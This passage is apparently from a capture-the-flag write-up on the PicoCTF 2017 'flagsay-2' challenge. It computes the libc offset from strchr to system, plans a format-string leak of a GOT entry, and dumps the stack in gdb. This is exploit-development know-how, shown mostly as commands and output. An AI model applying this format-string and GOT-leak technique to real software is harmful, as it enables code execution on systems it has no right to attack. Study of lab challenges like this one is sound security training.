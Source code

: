 We can use a python command to do the math and print the resulting offset in hex.

```
$ python -c "print '{0:02x}'.format(0xf7e5a3e0 - 0xf7e957f0)"
-3b410
$
```

This can be used to calculate the address of system from the leaked runtime address of strchr. We will leak this address using the ```%s``` format specifier. We have a problem, however, the string that is input by the user is stored in the heap. Therefore, we will have to use existing stack addresses to build a pointer to the GOT address of strchr. Let's dump the stack and see what we can use.

```
$ gdb flagsay-2 -q
Reading symbols from flagsay-2...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/robbie/PicoCTF2017/binary_exploitation/level4/flagsay_2/flagsay-2
^C
Program received signal SIGINT, Interrupt.
0xf7fd9d70 in __kernel_vsyscall ()
(gdb) x/200x $sp
0xffffd3a8:     0xf7e1b700      0x00000400      0xf7fd7000      0xf7ef7d03
0xffffd3b8:     0xf7fc5000      0xf7e8b163      0x00000000      0xf7fd7000
0xffffd3c8:     0x00000400      0xf7ffd938      0xf7fc5420      0xf7fc5000
0xffffd3d8:     0xf7eff859      0xf7fc5000      0xf7fc5c20      0x00000357
0xffffd3e8:     0xf7fc5c20      0xf7e8c039      0xf7fc5c20      0xffffd418
0xffffd3f8:     0xffffd410      0x080482b7      0xf7ffd938      0x00000000
0xffffd408:     0xf7fc5c20      0xf7e8be6b      0xf7fc5c20      0x00000000
0xffffd418:     0xf7e230c8      0xf7fc9000      0x00005d26      0xf7fc5000
0xffffd428:     0x00000000      0xf7e803da      0xf7fc5c20      0x00020ca1
0xffffd438:     0x00000360      0x00000000      0x00000000      0x00000fff
0xffffd448:     0x0804a008      0x0804a000      0x00000370      0xf7ffd000
0xffffd458:     0xf7ffd938      0xf7fc5000      0xf7fc5c20      0x0804a008
0xffffd468:     0x00000000      0xf7e80517      0xf7fc5c20      0x0804a008
0xffffd478:     0x00000357      0x0000000a      0x00000001      0x00000000
0xffffd488:     0xffffd4a4      0x08049974      0x08048288      0x080481e8
0xffffd498:     0x00000000      0xf7e7f371      0xf7fc5c20      0x0804a008
0xffffd4a8:     0x00000357      0x0000000a      0x00000001      0xf7fc5000
0xffffd4b8:     0x00000000      0xf7e1b700      0xffffd508      0xf7ff0470
0xffffd4c8:     0xf7fc5c20      0xf7fc5000      0x00000000      0x00000000
0xffffd4d8:     0xffffd508      0x0804867e      0x0804a008      0x00000358
0xffffd4e8:     0xf7fc5c20      0x08048722      0x00000001      0x0804a368
0xffffd4f8:     0x0804a008      0x00000358      0xf7fc53c4      0xffffd520
0xffffd508:     0x00000000      0xf7e35a63      0x080486d0      0x00000000
0xffffd518:     0x00000000      0xf7e35a63      0x00000001      0xffffd5b4
0xffffd528:     0xffffd5bc      0xf7feac3a      0x00000001      0xffffd5b4
0xffffd538:     0xffffd554      0x08049988      0x08048288      0xf7fc5000
0xffffd548:     0x00000000      0x00000000      0x00000000      0x846f5c8a
0xffffd558:     0xbd71589a      0x00000000      0x00000000      0x00000000
0xffffd568:     0x00000001      0x08048470      0x00000000      0xf7ff0470
0xffffd578:     0xf7e35979      0xf7ffd000      0x00000001      0x08048470
0xffffd588:     0x00000000      0x08048491      0x080485da      0x00000001
0xffffd598:     0xffffd5b4      0x080486d0      0x08048740      0xf7feb0f0
0xffffd5a8:     0xffffd5ac      0x0000001c      0x00000001      0xffffd6e1
0xffffd5b8:     0x00000000      0xffffd729      0xffffd73c      0xffffd74c
0xffffd5c8:     0xffffd757      0xffffd780      0xffffd7a2      0xffffd7b5
0xffffd5d8:     0xffffd7c1      0xffffdd5a      0xffffdd66      0xffffde08
0xffffd5e8:     0xffffde1e      0xffffde23      0xffffde65      0xffffde8a
0xffffd5f8:     0xffffde9b      0xffffdee1      0xffffdeea      0xffffdefc
0xffffd608:     0xffffdf04      0xffffdf13      0xffffdf46      0xffffdf6a
0xffffd618:     0xffffdf89      0x00000000      0x00000020      0xf7fd9d60
0xffffd628:     0x00000021      0xf7fd9000      0x00000010      0xbfebfbff
0xffffd638:     0x00000006      0x00001000      0x00000011      0x00000064
0xffffd648:     0x00000003      0x08048034      0x00000004      0x00000020
```